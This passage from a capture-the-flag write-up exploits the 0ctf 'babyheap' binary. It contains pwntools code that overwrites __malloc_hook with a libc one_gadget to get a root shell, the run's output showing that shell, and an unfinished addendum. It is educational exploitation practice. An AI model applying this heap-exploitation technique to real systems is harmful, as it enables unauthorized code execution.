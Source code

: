 ```python=
payload2 += p64(malloc_hook_write)
fill(6,payload2)

one_gad = 0x3f42a+libc_base
allocate(0x60) 
allocate(0x60) 
payload3 = b""
payload3 += b"A"*19
payload3 += p64(one_gad)
fill(8,payload3)
allocate(1)
io.interactive()
```

Output:
```bash
root@test:/ctf/work# python3 0heap.py 
[+] Starting local process './0ctfbabyheap': pid 2532
[!] Could not populate PLT: module 'unicorn' has no attribute 'UC_ARCH_ARM64'
[*] '/ctf/work/0ctfbabyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[!] Could not populate PLT: module 'unicorn' has no attribute 'UC_ARCH_ARM64'
[*] '/glibc/2.23/64/lib/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Leak: 0x7f36d777ab78
Libc Base: 0x7f36d73df000
__malloc_hook: 0x7f36d777ab10
Bin_sh: 139873517579316
[*] Switching to interactive mode
 $ whoami
root
```

## Addendum
(NOT FINISHED YET)
What if there were no usable `one_gadget`? 
```python=
from pwn import *
context.terminal = ['tmux', 'splitw', '-v']
file_path = "./0ctfbabyheap"
context.binary = elf =  ELF(file_path)
libc = elf.libc
io = process(file_path)

gdb.attach(io)
def allocate(size):
    io.sendline("1")
    io.sendlineafter("Size:",str(size))

def fill(index, data):
    io.sendline("2")
    io.sendlineafter("Index:",str(index))
    io.sendlineafter("Size:",str(len(data)))
    io.sendlineafter("Content:",data)

```